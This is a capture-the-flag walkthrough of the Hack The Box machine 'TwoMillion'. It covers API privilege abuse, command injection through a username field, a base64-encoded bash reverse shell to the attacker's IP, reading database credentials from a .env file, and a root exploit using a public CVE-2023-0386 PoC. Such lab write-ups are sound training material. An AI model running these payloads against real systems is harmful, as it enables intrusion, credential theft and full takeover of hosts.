








# HTB : TwoMillion


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/TwoMillion) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | November 6th 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.100.236 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)  
|\_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)  
80/tcp open  http    nginx  
|\_http-title: Did not follow redirect to http://2million.htb/  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

From the nmap results, we can see that the target machine is running an `ssh` server on port `22`, and a `http server` on port `80` running an unspecified version of `nginx`. Additionally we can see that the `htt-title` is `2million.htb` so let's add this along with the target IP to our /etc/hosts file as so:

```
10.129.100.236  2million.htb
```

and visit the page using the BurpSuite browser.

### Web Recon

Visiting the URL we can see that it contains an old version of the Hack the Box web page:



From here we have the option to join using an invite code or login if we already have an account. Since we do not already have an account we will need to join by visiting the `/invite` page:



Inspecting the pages source code we see the following scripts:

```
\<script defer="" src="/js/inviteapi.min.js"\>\</script\>  
\<script defer\>  
        $(document).ready(function() \{  
            $('\#verifyForm').submit(function(e) \{  
                e.preventDefault();  
  
                var code = $('\#code').val();  
                var formData = \{ "code": code \};  
  
                $.ajax(\{  
                    type: "POST",  
                    dataType: "json",  
                    data: formData,  
                    url: '/api/v1/invite/verify',  
                    success: function(response) \{  
                        if (response\[0\] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") \{  
                            // Store the invite code in localStorage  
                            localStorage.setItem('inviteCode', code);  
  
                            window.location.href = '/register';  
                        \} else \{  
                            alert("Invalid invite code. Please try again.");  
                        \}  
                    \},  
                    error: function(response) \{  
                        alert("An error occurred. Please try again.");  
                    \}  
                \});  
            \});  
        \});  
\</script\>
```

We see on the first line that a script file is being imported so lets inspect `inviteapi.min.js`:

```
eval(function(p, a, c, k, e, d) \{  
    e = function(c) \{  
        return c.toString(36)  
    \}  
    ;  
    if (!''.replace(/^/, String)) \{  
        while (c--) \{  
            d\[c.toString(a)\] = k\[c\] || c.toString(a)  
        \}  
        k = \[function(e) \{  
            return d\[e\]  
        \}  
        \];  
        e = function() \{  
            return '\\\\w+'  
        \}  
        ;  
        c = 1  
    \}  
    ;while (c--) \{  
        if (k\[c\]) \{  
            p = p.replace(new RegExp('\\\\b' + e(c) + '\\\\b','g'), k\[c\])  
        \}  
    \}  
    return p  
\}('1 i(4)\{h 8=\{"4":4\};$.9(\{a:"7",5:"6",g:8,b:\\'/d/e/n\\',c:1(0)\{3.2(0)\},f:1(0)\{3.2(0)\}\})\}1 j()\{$.9(\{a:"7",5:"6",b:\\'/d/e/k/l/m\\',c:1(0)\{3.2(0)\},f:1(0)\{3.2(0)\}\})\}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, \{\}))
```

The script appears to be obfuscated to prevent us from reading it, so let's see if we can de-obfuscate it using [de4js](https://thanhle.io.vn/de4js/):

```
function verifyInviteCode(code) \{  
    var formData = \{  
        "code": code  
    \};  
    $.ajax(\{  
        type: "POST",  
        dataType: "json",  
        data: formData,  
        url: '/api/v1/invite/verify',  
        success: function (response) \{  
            console.log(response)  
        \},  
        error: function (response) \{  
            console.log(response)  
        \}  
    \})  
\}  
  
function makeInviteCode() \{  
    $.ajax(\{  
        type: "POST",  
        dataType: "json",  
        url: '/api/v1/invite/how/to/generate',  
        success: function (response) \{  
            console.log(response)  
        \},  
        error: function (response) \{  
            console.log(response)  
        \}  
    \})  
\}
```

Looking at the de-obfuscated code we see two functions `verifyInviteCode` and `makeInviteCode`. Given we do not currently have an invite code lets take a closer look at the makeInviteCode function.

The function makes a post request to `/api/v1/invite/how/to/generate` and uses outputs the contents to the console.

Let's use the console to call the `makeInviteCode` function:



The returned data `Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr` is `ROT13` encrypted. Let's use [CyberChef](https://cyberchef.org/) to decrypt it:



The decrypted message states that `In order to generate the invite code, make a POST request to /api/v1/invite/generate`. We can easily do this using `CURL`:

```
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ curl -sX POST http://2million.htb/api/v1/invite/generate       
\{"0":200,"success":1,"data":\{"code":"REDACTED","format":"encoded"\}\}                                                                                                                                                   
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ curl -sX POST http://2million.htb/api/v1/invite/generate | jq  
\{  
  "0": 200,  
  "success": 1,  
  "data": \{  
    "code": "REDACTED",  
    "format": "encoded"  
  \}  
\}
```

The POST request return javascript code so we can just pip `|` it into `jq` where we see it contains a `base64` encoded invite code!

Entering this code into the form we find that it is indeed valid and we are redirected to the registration page. After registering and logging in we see the Hack the Box home page:



On the left hand menu we see tab labeled `Access` which contains a page where the user can generate and download a VPN file to connect to the HTB network:



Let's click on the `Connection Pack` button and intercept the request in Burp Suite so we can see what's going on:

```
GET /api/v1/user/vpn/generate HTTP/1.1  
Host: 2million.htb  
Accept-Language: en-US,en;q=0.9  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://2million.htb/home/access  
Accept-Encoding: gzip, deflate, br  
Cookie: PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk  
Connection: keep-alive
```

We can see that clicking the `Connection Pack` button initiates a GET request to `/api/v1/user/vpn/generate`. Let's explore this api more by sending a CURL request to just the `/api/v1`:

Doing so gives us a `401 Unauthorized` error which makes sense as we did not include out `PHPSESSID` cookie from our authorized session. Once we include our authorized cookie we get:

```
 curl  http://2million.htb/api/v1 --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" | jq   
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current  
                                 Dload  Upload  Total   Spent   Left   Speed  
100    800   0    800   0      0   4679      0                              0  
\{  
  "v1": \{  
    "user": \{  
      "GET": \{  
        "/api/v1": "Route List",  
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",  
        "/api/v1/invite/generate": "Generate invite code",  
        "/api/v1/invite/verify": "Verify invite code",  
        "/api/v1/user/auth": "Check if user is authenticated",  
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",  
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",  
        "/api/v1/user/vpn/download": "Download OVPN file"  
      \},  
      "POST": \{  
        "/api/v1/user/register": "Register a new user",  
        "/api/v1/user/login": "Login with existing user"  
      \}  
    \},  
    "admin": \{  
      "GET": \{  
        "/api/v1/admin/auth": "Check if user is admin"  
      \},  
      "POST": \{  
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"  
      \},  
      "PUT": \{  
        "/api/v1/admin/settings/update": "Update user settings"  
      \}  
    \}  
  \}  
\}
```

Great! This returns a large amount of other API endpoints and potentially more importantly their descriptions.

Since we are not operating as admin let's see if we can use the `/api/v1/admin/settings/update` endpoint to update our current account:

```
curl -v -X PUT  http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" | jq  
  
...  
  
\{  
  "status": "danger",  
  "message": "Invalid content type."  
\}
```

This returns an `Invalid content type` message which means we need to add a content type header:

```
curl -v -X PUT  http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" | jq  
  
...  
  
\{  
  "status": "danger",  
  "message": "Missing parameter: email"  
\}
```

Progress, now it looks like we need to add an email parameter so let's use our email from when we signed up `test@email.com`:

```
  
curl -v -X PUT  http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"email":"test@email.com"\}' | jq  
  
...  
  
\{  
  "status": "danger",  
  "message": "Missing parameter: is_admin"  
\}
```

Now it seems we are missing the `is_admin` parameter so let's add that:

```
curl -v -X PUT  http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"email":"test@email.com", "is\_admin": 1\}' | jq    
  
...  
  
\{  
  "id": 13,  
  "username": "test",  
  "is_admin": 1  
\}
```

This returns our updates profile with the `is_admin` set to 1 or True! We can test this using the `/api/v1/admin/auth` API endpoint:

```
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" | jq            
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current  
                                 Dload  Upload  Total   Spent   Left   Speed  
100     16   0     16   0      0     94      0                              0  
\{  
  "message": true  
\}
```

Let's attempt to generate a vpn connection file by sending a POST request to the `/api/v1/admin/vpn/generate` API endpoint specifying our username in the data body:

```
curl -X POST  http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"username":"test"\}'   
client  
dev tun  
proto udp  
remote edge-eu-free-1.2million.htb 1337  
resolv-retry infinite  
nobind  
persist-key  
persist-tun  
remote-cert-tls server  
comp-lzo  
verb 3  
data-ciphers-fallback AES-128-CBC  
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM  
tls-cipher "DEFAULT:@SECLEVEL=0"  
auth SHA256  
key-direction 1  
\<ca\>  
-----BEGIN CERTIFICATE-----  
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL  
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv  
bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBOMREwDwYDVQQD
```

Success! But what happens when we input a junk username? Let's test it out:

```
curl -X POST  http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"username":"junk"\}'  
client  
dev tun  
proto udp  
remote edge-eu-free-1.2million.htb 1337  
resolv-retry infinite  
nobind  
persist-key  
persist-tun  
remote-cert-tls server  
comp-lzo  
verb 3  
data-ciphers-fallback AES-128-CBC  
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM  
tls-cipher "DEFAULT:@SECLEVEL=0"  
auth SHA256  
key-direction 1  
\<ca\>  
-----BEGIN CERTIFICATE-----  
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL  
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
```

## Foothold

The request is still successful meaning that a valid username is not required for the VPN connection file to be generated. Knowing that the username parameter value is not checked allows us to experiment with different attack methods such as Command Injection.

Let's see what adding a `;` at the end of the username does:

```
curl -X POST  http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"username":"junk;"\}'     
                                                                                                                                                   
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ 
```

Nothing is returned, this indicated that the `;` interfered with the command executed on the server so lets try to include a command:

```
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ curl -X POST  http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"username":"junk;whoami;"\}'  
www-data
```

Success! We can successfully execute arbitrary code on the machine! Let's use this to gain a reverse shell. After setting up a NetCat listener we can use [RevShells](https://www.revshells.com/) to develop our payload:



Our resulting CURL command looks like this:

```
curl -X POST  http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=3n3e5vfjlhokddg0o43s3vi8rk" -H "Content-Type: application/json" --data '\{"username":"junk;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yNDkvNDQ0NCAwPiYx | base64 -d | bash;"\}'
```

After executing the command we can check our listener and see we do indeed have a reverse shell:

```
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ nc -lvnp 4444  
listening on \[any\] 4444 ...  
connect to \[10.10.15.249\] from (UNKNOWN) \[10.129.100.236\] 59108  
bash: cannot set terminal process group (1099): Inappropriate ioctl for device  
bash: no job control in this shell  
www-data@2million:~/html$ whoami  
whoami  
www-data  
www-data@2million:~/html$ hostname  
hostname  
2million  
www-data@2million:~/html$ 
```

## Lateral Movement

Listing the contents of the `/html` directory we find a `.env` file which when displayed reveals a username and password for the `htb\_prod` database:

```
www-data@2million:~/html$ ls -al  
ls -al  
total 56  
drwxr-xr-x 10 root root 4096 Nov  7 04:30 .  
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..  
-rw-r--r--  1 root root   87 Jun  2  2023 .env  
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php  
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php  
drwxr-xr-x  5 root root 4096 Nov  7 04:30 VPN  
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets  
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers  
drwxr-xr-x  5 root root 4096 Jun  6  2023 css  
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts  
drwxr-xr-x  2 root root 4096 Jun  6  2023 images  
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php  
drwxr-xr-x  3 root root 4096 Jun  6  2023 js  
drwxr-xr-x  2 root root 4096 Jun  6  2023 views  
www-data@2million:~/html$ cat .env  
cat .env  
DB\_HOST=127.0.0.1  
DB\_DATABASE=htb\_prod  
DB\_USERNAME=admin  
DB\_PASSWORD=\<REDACTED\>  
www-data@2million:~/html$ 
```

A good practice whenever new credentials are discovered is to attempt to use then for other services / applications on the target machine. Looking back at our nmap scan we can see that the target machine is also running an ssh server.

Using the command `tail /etc/passwd` we can confirm that there is a user named `admin` on the machine so lets try to ssh as admin with this discovered password:

```
┌──(kali㉿kali)-\[~/labs\_htb/TwoMillion\]  
└─$ ssh admin@2million.htb  
admin@2million.htb's password:   
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86\_64)  
  
 \* Documentation:  https://help.ubuntu.com  
  
  
...  
  
admin@2million:~$ whoami  
admin  
admin@2million:~$ hostname  
2million  
admin@2million:~$ 
```

Success! The discovered credentials were also valid for ssh login. the user flag can be found in `/home/admin`

## Privilege Escalation

Let's do some enumeration by running `linpeas.sh` on the target machine, we can do this by setting up a python HTTP server on our attack machine in the same directory as the linpeas.sh script. Then on the target machine we can retrieve it using `wget`:

```
admin@2million:~$ wget 10.10.15.249/linpeas.sh  
--2026-11-07 04:52:58--  http://10.10.15.249/linpeas.sh  
Connecting to 10.10.15.249:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 1303542 (1.2M) \[application/x-sh\]  
Saving to: ‘linpeas.sh’  
  
linpeas.sh                           100%\[===================================================================\>\]   1.24M  1.62MB/s    in 0.8s      
  
2026-11-07 04:52:59 (1.62 MB/s) - ‘linpeas.sh’ saved \[1303542/1303542\]  
  
admin@2million:~$ chmod +x linpeas.sh   
admin@2million:~$ ./linpeas.sh 
```

Looking at the results we can see that the target machine has a kernel version that contains a privilege escalation vulnerability as described in [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/cve-2023-0386):

```
╔══════════╣ Kernel Exploit Registry (T1068)  
═╣ Operating system .............Linux                                                                                                            
═╣ Kernel release ............... 5.15.70-051570-generic                                                                                           
═╣ Comparable version ........... 5.15.70.051570                                                                                                   
═╣ Data chunk limit ............. max 25 rows per KERNEL\_CVE\_DATA\_\* variable (1..26)                                                               
═╣ Kernel config source ......... /boot/config-5.15.70-051570-generic                                                                                                                                      
CVE: CVE-2023-0386 | Name: OverlayFS suid smuggle | Match data: pkg=linux-kernel,ver\>=5.11,ver\<=6.2,CONFIG\_USER\_NS=y,sysctl:kernel.unprivileged\_userns\_clone==1 | Tags: ubuntu=22.04.1\{kernel:5.15.0-57-generic\} | Rank: 1 | Details: CONFIG\_USER\_NS needs to be enabled && kernel.unprivileged\_userns\_clone=1 required                                                                                                                              
...  
  
═╣ Kernel vulns found: 10
```

Looking online we find this [PoC](https://github.com/xkaneiki/CVE-2023-0386) from GitHub user [xkaneiki](https://github.com/xkaneiki).

After cloning the repo we need to zip it in order to make transferring it to the target machine easier. Then we can transfer it to the target using the same method as we did for linpeas.sh. After unzipping it we can follow the directions in the repos README. When we run the `make all` there will be errors but those can be ignored and we can continue the exploit:

```
admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &  
\[1\] 61840  
admin@2million:~/CVE-2023-0386$ \[+\] len of gc: 0x3ee0  
  
admin@2million:~/CVE-2023-0386$ ./exp  
uid:1000 gid:1000  
\[+\] mount success  
\[+\] readdir  
\[+\] getattr\_callback  
/file  
total 8  
drwxrwxr-x 1 root   root     4096 Nov  7 05:01 .  
drwxrwxr-x 6 root   root     4096 Nov  7 05:01 ..  
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file  
\[+\] open\_callback  
/file  
\[+\] read buf callback  
offset 0  
size 16384  
path /file  
\[+\] open\_callback  
/file  
\[+\] open\_callback  
/file  
\[+\] ioctl callback  
path /file  
cmd 0x80086601  
\[+\] exploit success!  
To run a command as administrator (user "root"), use "sudo \<command\>".  
See "man sudo\_root" for details.  
  
root@2million:~/CVE-2023-0386\# whoami  
root  
root@2million:~/CVE-2023-0386\# hostname  
2million
```

After running the execution instructions we see that we are now running in a root shell! The root flag can be found in /root thus solving the challenge:



